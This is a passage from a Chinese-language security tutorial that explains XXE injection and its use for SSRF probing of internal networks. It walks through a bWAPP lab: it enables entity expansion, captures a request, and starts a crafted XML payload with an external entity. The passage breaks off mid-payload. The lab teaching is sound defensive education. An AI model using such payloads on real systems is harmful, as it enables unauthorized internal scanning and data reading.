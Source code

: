 </code></pre><p>这是我们需要注入的XML代码，Web应用在解析它的时候，会向其中的链接发出请求，并且这个请求是由被攻击Web应用的服务器所发送的，这就是SSRF攻击。</p><p>它到底有什么作用呢？<strong>我们可以利用它来判断Web应用服务器内网地址的开启情况</strong>，只需要将链接改为服务器的内网地址，然后根据响应的内容就可以判断内网地址是否开放，这会对内网的安全产生威胁。</p><p>在了解完XXE的攻击方式后，让我们进入到实战部分来切身体会下XXE攻击的危害吧。</p><h2>实战演练</h2><p>在实战过程中，我们选用靶场bwapp做测试，需要注意的是，我们要将bwapp靶场中的xxe-2.php文件中的内容作修改，将$xml的值改为如下：</p><pre><code class="language-php">$xml = simplexml_load_string($body,'SimpleXMLElement',LIBXML_NOENT);
</code></pre><p>然后，打开靶场我们可以看到，页面中有一个按钮 <code>Any bugs?</code>，我们点击不会有反应，这时候可以打开Burpsuite做测试，通过捕获我们获取到点击按钮会发送请求：</p><pre><code class="language-plain">POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 59
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close

&lt;reset&gt;&lt;login&gt;bee&lt;/login&gt;&lt;secret&gt;Any bugs?&lt;/secret&gt;&lt;/reset&gt;
</code></pre><p>经过观察，我们看到Content-type的值为text/xml，所以我们可以分析出下面的数据为XML数据，于是可以尝试进行XXE攻击。</p><pre><code class="language-plain">POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 178
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close

&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;!DOCTYPE reset[
&lt;!ENTITY Info SYSTEM "http://127.0.0.1/1.txt"&gt;
]&gt;
